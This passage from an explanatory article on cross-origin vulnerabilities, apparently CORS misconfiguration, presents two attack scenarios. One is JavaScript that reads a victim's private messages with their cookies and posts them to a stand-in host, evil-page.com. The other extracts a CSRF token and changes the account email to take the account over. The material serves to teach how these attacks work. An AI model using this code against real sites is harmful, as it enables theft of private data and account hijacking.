 <br>

## Real Attack Scenarios

### Scenario 1: Stealing Private Messages

Imagine a social media site with this vulnerability:

1. **Victim visits evil-page.com**
2. **Evil page runs this code:**
   ```javascript
   fetch('https://vulnerable-social.com/api/private-messages', {
     credentials: 'include'  // Sends the victim's cookies
   })
   .then(response => response.json())
   .then(messages => {
     // Send messages to attacker's server
     fetch('https://evil-page.com/collect', {
       method: 'POST',
       body: JSON.stringify(messages)
     });
   });
   ```

3. **Result:** Attacker gets all the victim's private messages!

<br>

### Scenario 2: Account Takeover

1. **Victim visits malicious-blog.com**
2. **Malicious page runs:**
   ```javascript
   // Step 1: Get the CSRF token
   fetch('https://vulnerable-site.com/account/settings', {
     credentials: 'include'
   })
   .then(response => response.text())
   .then(html => {
     // Extract CSRF token from HTML
     const csrfToken = html.match(/csrf-token" content="([^"]+)"/)[1];
     
     // Step 2: Change email address
     fetch('https://vulnerable-site.com/account/update-email', {
       method: 'POST',
       credentials: 'include',
       headers: {
         'Content-Type': 'application/json',
         'X-CSRF-Token': csrfToken
       },
       body: JSON.stringify({
         email: 'hacker@evil.com'
       })
     });
   });
   ```

